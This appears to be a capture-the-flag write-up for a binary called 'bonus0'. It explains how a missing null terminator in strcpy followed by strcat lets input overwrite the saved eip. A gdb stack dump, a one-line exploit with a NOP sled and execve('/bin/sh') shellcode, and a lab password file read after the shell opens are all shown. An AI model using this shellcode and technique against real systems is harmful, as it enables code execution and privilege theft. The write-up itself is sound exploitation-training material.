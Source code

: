 When analyzing the binary with gdb, we find that we cannot overflow the read buffer because it tries to dereference the return value of `strchr` on a \n (which causes an unexploitable segmentation fault).

But this huge buffer in the stack in the `p` function tells us we can easily put a shellcode in there and try to jump on it. But how ?

The binary does a strcpy of the 20 first chars of the first read. But if our read is 20 characters long, the buffer wont contain a 0 at then end, and the strcpy will copy more than it should (it will copy the buffer 2 too). \
Then it writes a space character on one byte, and strcat the second string on the result. The `eip` of main is located a few bytes after the main buffer. As we can write around 20 bytes after the end of the main buffer, we can override the eip to jump to our desired location in the stack.

Let's see how we did this:
```shell
$ # we must unset LINES and COLUMNS from the environment to make the process easier when executing in the shell
(gdb) disas p

$ # we break just after the read
(gdb) b *p+50

(gdb) r < <(python -c 'print "\x90"*100 + "AAAA"'; python -c 'print "CCCC"*5')

(gdb) x/48wx $esp
0xbfffe650:  0x00000000  0xbfffe660  0x00001000  0x00000000
0xbfffe660:  0x90909090  0x90909090  0x90909090  0x90909090
0xbfffe670:  0x90909090  0x90909090  0x90909090  0x90909090
0xbfffe680:  0x90909090  0x90909090  0x90909090  0x90909090
0xbfffe690:  0x90909090  0x90909090  0x90909090  0x90909090
0xbfffe6a0:  0x90909090  0x90909090  0x90909090  0x90909090
0xbfffe6b0:  0x90909090  0x90909090  0x90909090  0x90909090
0xbfffe6c0:  0x90909090  0x41414141  0x0000000a  0x00000000
                        |_ where the shellcode will be inserted

(gdb) quit

bash$ # the shellcode must keep stdin open so we chose one that does it
bash$ # we take an address a little before so we are sure it gets executed properly (NOP instructions)
bash$ # the last byte is first because the insertion of the space will cause the data to be moved 1 byte to the right
bash$ ./bonus0 < <(python -c 'print "\x90"*100 + "\x83\xc4\x10\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' ; python -c 'print "\xbf\xb0\xe6\xff"*5')
 -
 -
������������������������������������������ ����������������������
$ cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

